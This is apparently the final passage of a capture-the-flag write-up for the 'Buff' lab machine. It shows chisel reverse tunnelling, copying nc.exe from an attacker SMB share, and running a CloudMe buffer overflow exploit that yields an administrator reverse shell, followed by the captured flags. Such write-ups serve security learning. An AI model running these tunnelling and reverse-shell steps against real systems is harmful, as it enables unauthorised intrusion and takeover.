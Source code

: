 ```powershell
# Attacker side result
❯ chisel server --reverse -p 6666
2022/06/20 11:38:42 server: Reverse tunnelling enabled
2022/06/20 11:38:42 server: Fingerprint 3wcC9SZm9SOV+E3qxBu/4lxELF32m2QlbYfPOs2o0Mk=
2022/06/20 11:38:42 server: Listening on http://0.0.0.0:6666
2022/06/20 11:39:25 server: session#1: Client version (1.7.7) differs from server version (v1.7.7)
2022/06/20 11:39:25 server: session#1: tun: proxy#R:8888=>8888: Listening
```
Now, we can attack the machines local port 8888 as if it was our local port:
```shell
❯ nmap -p8888 --open 127.0.0.1 -n -Pn -oN Enum/chisel_8888
PORT     STATE SERVICE
8888/tcp open  sun-answerbook
```

Now, we can try to attack against it, using `nc.exe`:
``` shell
# Shaun terminal on victim
C:\xampp\htdocs\gym\upload>copy \\10.10.14.9\smbFolder\nc.exe .\nc.exe 
copy \\10.10.14.9\smbFolder\nc.exe .\nc.exe
        1 file(s) copied.
# Triggering terminal
❯ python3 Exploits/cloudme_buffoverflow.py 127.0.0.1 8888
[+] Connected to the server
[+] Payload was sent, check your listening shell :)
# Listening terminal
❯ nc -nlvp 4444
Connection from 10.10.10.198:49823
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
buff\administrator
```
We obtained a shell as `Buff/administrator` user.

## CVE
No CVEs were consulted for this machine.

## Machine flags
| Type | Flag | Blood | Date |
| :-: | :-: | :-: | :-: |
| User | e89175d4548daf72d1ededde4ade3a87 | No | 19-06-2022|
| Root | aab859e1b9ed3f79f4d025bf013cf3b7 | No | 20-06-2022|

## References
- https://www.exploit-db.com/exploits/48506
- https://www.cloudme.com/es
- https://www.exploit-db.com/exploits/48389
- https://bufferoverflows.net/practical-exploitation-part-1-cloudme-sync-1-11-2-bufferoverflow-seh/